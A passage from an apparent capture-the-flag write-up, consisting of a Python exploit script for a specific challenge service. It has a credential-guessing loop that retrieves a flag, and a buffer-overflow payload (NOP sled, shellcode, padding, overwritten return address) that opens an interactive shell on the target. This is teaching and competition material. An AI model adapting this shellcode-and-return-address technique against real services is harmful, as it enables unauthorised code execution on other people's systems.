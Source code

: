 # Exploit code
#
def get_flag01():
    while True:
        with connect(TARGET) as c:
            c.send(b'1\n')
            c.send(b'guest\n')
            c.send(b'guest\n')
            c.send(b'1\n')
            c.send(b'admin\n')
            c.send(b'asdf\n')
            time.sleep(1)
            c.send(b'2\n')
            c.send(b'4\n')
            resp = d(c.recv_until_found([b'Congratulations', b'Access denied']))
            if '9447' in resp:
                print(re.search('(9447{\w+})', resp).group(1))
                return
            else:
                sys.stdout.write('.')
                sys.stdout.flush()

def pwn():
    payload  = p(0x90, '<B')*1000             # nopsled
    payload += SHELLCODE                      # shellcode
    payload += b'A' * (0x5e0-len(payload))    # padding
    payload += p(0x5e1 ^ 0x20202020)          # current index
    payload += b'B' * 12                      # padding
    payload += p(0x0804c9a1 ^ 0x20202020)     # return address

    while True:
        with connect(TARGET) as c:
            c.send(b'1\n')
            c.send(b'guest\n')
            c.send(b'guest\n')
            c.send(b'1\n')
            c.send(payload + b'\n')
            c.send(b'asdf\n')
            time.sleep(1)       # make sure the login completed
            c.send(b'3\n')      # trigger the overflow
            c.send(b'4\n')      # ret -> gain code execution
            resp = c.recv_until_found([b'yOU aRE aWESOME', b'You\'re not logged in'])
            if b'yOU aRE aWESOME' in resp:
                print("Pwned!")
                c.interact()
                return
            else:
                sys.stdout.write('.')
                sys.stdout.flush()


pwn()
{% endhighlight %}
